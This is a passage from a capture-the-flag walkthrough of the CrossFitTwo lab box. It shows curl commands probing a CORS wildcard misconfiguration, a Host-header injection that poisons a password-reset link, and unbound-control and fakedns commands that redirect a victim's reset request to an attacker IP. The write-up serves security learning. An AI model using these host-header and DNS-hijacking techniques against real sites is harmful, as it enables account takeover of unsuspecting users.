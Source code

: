 And here this technique work for both subdomains `employees.crossfit.htb` and `gym.crossfit.htb`
```bash
❯ curl -s -q -v -H 'Origin: http://employeesXcrossfit.htb' http://crossfit-club.htb/api/auth 2>&1 | grep "Origin"
> Origin: http://employeesXcrossfit.htb
< Access-Control-Allow-Origin: http://employeesXcrossfit.htb
```

Now the another thing we can do with that misconfigured domain `*employees.crossfit.htb` in relayd config. That wildcard can be anything. if we add something like `anything.htb/anything-employees.crossfit.htb` it still resolves `employees.crossfit.htb`

```bash
❯ curl -s -X 'POST' -H 'Host: anything.htb/anything-employees.crossfit.htb' --data-binary 'email=david.palmer%40crossfit.htb' 'http://10.10.10.232/password-reset.php' | grep alert | sed 's/.*role="alert">\(.*\)<button.*/\1/'
Only local hosts are allowed.
```

but host value stored as `anything.htb/anything-employees.crossfit.htb` and browser translate host as `anything.htb` and strip anything after first domain and this time, When victim click on reset link it will redirect to `anything.htb`.

Doing same [DNS Hijacking](#dns-hijacking) attack but this time we change host domain to `employeesXcrossfit.htb/employees.crossfit.htb`.

This time we add `employeesXcrossfit.htb` domain in unboun-control, because when user click on link with `employeesXcrossfit.htb/employees.crossfit.htb` host his browser everything after first domain and make request to `employeesXcrossfit.htb`.
```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i employeesXcrossfit.htb 10.10.15.71
```

And change `fakedns` config rule 
```bash
A employeesXcrossfit.htb 127.0.0.1 2%10.10.15.71
```

![](/assets/img/posts/crossFitTwo/signup-successful.png)
